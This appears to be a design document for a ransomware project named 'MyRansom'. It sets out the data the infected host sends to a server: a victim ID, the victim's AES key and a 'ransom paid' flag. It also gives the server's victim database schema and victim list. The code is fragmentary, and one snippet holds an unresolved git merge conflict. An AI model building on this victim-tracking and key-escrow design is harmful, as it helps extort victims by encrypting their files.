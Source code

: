 # Args of MyRansom

## infected host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
<<<<<<< HEAD
        'inf_time': time.time()
=======
        'inftime': time.ctime()
>>>>>>> b33833f424f190a3d45f18dd6de8409bdcb4859d
        'ransom': False,
        'AES_key': aes_key
    }
]
```

### paid

```python
aes_key = dec_key()
post_data = {
    'id': victim_id,
    'aes_key': aes_key
}
```

## Front-end

